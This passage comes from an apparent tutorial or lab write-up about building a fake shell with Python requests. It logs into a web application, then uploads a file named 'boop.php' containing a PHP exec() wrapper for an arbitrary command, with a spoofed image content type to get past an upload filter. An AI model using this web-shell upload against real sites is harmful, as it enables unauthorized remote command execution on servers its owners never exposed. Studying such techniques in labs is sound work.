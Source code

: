     :::python
    login_data = {
        'email':'bla%40bla.com',
        'password':'bla',
        'login':'Login'
    }   

Now a post request can be made to the login url defined
earlier with the parameters set in the dictionary.

    :::python
    with requests.Session() as s:
        login = s.post(login_url, data=login_data)


The session is now authenticated and we are logged in as
the bla account. I've demonstrated this in the interactive
python shell here:

![Interactive Login](images/fake-shell-with-python-requests/interactivelogin.png)

The next challenge is sending a 
multipart/form-data request where the file contents is
the command we want to run surrounded by php exec code.
This turns out to be not as complicated as it sounds.

As explained in the [requests documentation](https://2.python-requests.org//en/latest/user/quickstart/#post-a-multipart-encoded-file)
posting a multipart/form-data request is as simple
as defining the data in a python dictionary or a list
of two item tuples. It's also stated in the documentation
that a string can be used as the file contents. Both
of these things are ideal for this task.

In this code snippet, the file is defined with the name
'boop.php', the content is php execing a command defined
by the cmd variable and the type is 'image/jpeg'.

    :::python
    files = [
        ('uploadedfile', 
            ('boop.php',
            '<?php echo exec("' + cmd + '");?>',
            'image/jpeg')
        )
    ]
